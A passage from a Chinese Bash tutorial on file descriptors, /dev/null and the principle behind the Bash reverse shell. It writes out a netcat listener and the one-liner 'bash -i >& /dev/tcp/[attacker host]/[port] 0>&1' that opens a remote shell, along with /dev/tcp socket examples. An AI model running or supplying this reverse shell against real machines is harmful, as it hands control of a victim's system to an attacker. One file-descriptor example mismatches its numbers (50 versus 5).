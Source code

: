   调用
  
  `&文件描述符`  
  
  *注：这里的 & 目的是为了区分数字名字的文件和文件描述符，如果没有 & 系统会认为是将文件描述符重定向到了一个数字作为文件名的文件，而不是一个文件描述符。且重定向之间所有字符间不要有空格。*
  
  关闭
  
  `exec 文件描述符<&-`   或  `exec 文件描述符>&-`
  
  举例
  ```sh
  exec 50> test.txt
  echo 'are you ok?' 1>&5
  cat test.txt
  ```
- /dev/null
  
  特殊文件，写入的任何东西都会被清空
  
  a.把表顺错误输出重定向到/dev/null，从而丢掉不想保存的错误信息
  
  `whoami 2> /dev/null`
  
  b.快速移除文件中的数据而不用删除文件
  
  `cat /dev/null > test.txt`
  
  <br/>

### 4、Bash反弹Shell原理

- 原理解释
  
  拓展文档：`https://www.isisy.com/1241.html`
  
  控制端开启监听：`nc -lvvp [端口]`
  
  被控端执行连接：`bash -i 1> /dev/tcp/[攻击机host]/[端口] 0>&1 2>&1`
  
  命令原理:
  - `bash -i`：开启一个交互式的Shell
  - `1>` `/dev/tcp/[攻击机host]/[端口]`：调用socket建立链接，将标准输出（1）重定向到TCP的连接上面，也就是将标准输出发送给远程主机
  - `0>&1` `2>&1`：将标准输入（0）和错误输出流（2）都指向标准输出（1），而标准输出我们已经发给了远程主机，那么相当于是将输入输出流都重定向到了TCP连接，即本地主机可以通过TCP连接来接收指令，并且将输出流全部发给远程主机。
  - 故该命令也可简写为如下：
    
    `bash -i >& /dev/tcp/[攻击机host]/[端口] 0>&1`
- 细分操作
  
  (a).通过socket连接通信
  ```sh
  # 监听端口
  nc -lvvp 9999
  # 输出重定向到socket
  echo hello > /dev/tcp/192.168.0.1/9999
  ```
  
  (b).从socket读取内容
  ```sh
  # 监听端口
  nc -lvvp 9999
  # 输入重定向到本机cat
  cat < /dev/tcp/192.168.0.2/9999
  ```
  
